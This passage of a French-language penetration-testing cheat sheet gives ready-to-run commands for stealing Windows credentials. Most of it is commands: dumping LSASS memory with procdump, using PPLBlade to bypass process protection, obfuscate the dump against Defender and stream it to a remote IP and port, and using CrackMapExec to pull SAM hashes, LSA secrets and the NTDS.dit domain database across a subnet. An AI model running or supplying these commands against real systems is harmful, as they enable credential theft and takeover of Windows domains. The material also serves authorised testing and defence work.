 ### Dumping lsass avec procdump

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) est un binaire signé par Microsoft qui fait partie de la suite [sysinternals](https://docs.microsoft.com/en-us/sysinternals/).
```
Get-Process -Name LSASS
.\procdump.exe -ma 608 lsass.dmp
```
## Dumping lsass avec PPLBlade

[**PPLBlade**](https://github.com/tastypepperoni/PPLBlade) est un outil de vidage de processus protégé qui prend en charge l'obfuscation des fichiers de vidage mémoire et leur transfert sur des stations de travail distantes sans les déposer sur le disque.

**Fonctionnalités clés** :

1. Contournement de la protection PPL
2. Obfuscation des fichiers de vidage mémoire pour échapper aux mécanismes de détection basés sur les signatures de Defender
3. Téléchargement du vidage mémoire avec des méthodes de téléchargement RAW et SMB sans le déposer sur le disque (vidage sans fichier)
```bash
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```
## CrackMapExec

### Dump des hachages SAM
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```
### Dump LSA secrets
```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```
### Dump le NTDS.dit du DC cible
```
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```
### Dump le mot de passe NTDS.dit de l'historique de l'DC cible
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```
### Afficher l'attribut pwdLastSet pour chaque compte NTDS.dit
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```
## Vol de SAM & SYSTEM
